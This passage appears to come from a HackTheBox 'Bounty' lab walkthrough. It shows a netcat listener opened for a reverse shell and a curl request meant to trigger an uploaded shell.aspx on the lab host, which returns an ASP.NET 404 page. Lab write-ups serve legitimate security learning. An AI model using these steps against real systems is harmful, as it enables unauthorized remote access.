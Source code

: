 ![[Bounty-09.png]]

and we will know "File uploaded successfully."

Cool! then we recall we have a folder with /uploadedfiles , we try build a nc port open and connect this url, but it give us a error.

```bash
# local
nc -lvp 1234
curl "http://10.10.10.93/uploadedfiles/shell.aspx"
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bounty]
└─$ curl "http://10.10.10.93/uploadedfiles/shell.aspx"
<html>
    <head>
        <title>The resource cannot be found.</title>
        <style>
         body {font-family:"Verdana";font-weight:normal;font-size: .7em;color:black;} 
         p {font-family:"Verdana";font-weight:normal;color:black;margin-top: -5px}
         b {font-family:"Verdana";font-weight:bold;color:black;margin-top: -5px}
         H1 { font-family:"Verdana";font-weight:normal;font-size:18pt;color:red }
         H2 { font-family:"Verdana";font-weight:normal;font-size:14pt;color:maroon }
         pre {font-family:"Lucida Console";font-size: .9em}
         .marker {font-weight: bold; color: black;text-decoration: none;}
         .version {color: gray;}
         .error {margin-bottom: 10px;}
         .expandable { text-decoration:underline; font-weight:bold; color:navy; cursor:hand; }
        </style>
    </head>

    <body bgcolor="white">

            <span><H1>Server Error in '/' Application.<hr width=100% size=1 color=silver></H1>

            <h2> <i>The resource cannot be found.</i> </h2></span>

            <font face="Arial, Helvetica, Geneva, SunSans-Regular, sans-serif ">

            <b> Description: </b>HTTP 404. The resource you are looking for (or one of its dependencies) could have been removed, had its name changed, or is temporarily unavailable. &nbsp;Please review the following URL and make sure that it is spelled correctly.
            <br><br>

            <b> Requested URL: </b>/uploadedfiles/shell.aspx<br><br>

    </body>
</html>

```
![[Bounty-08.png]]
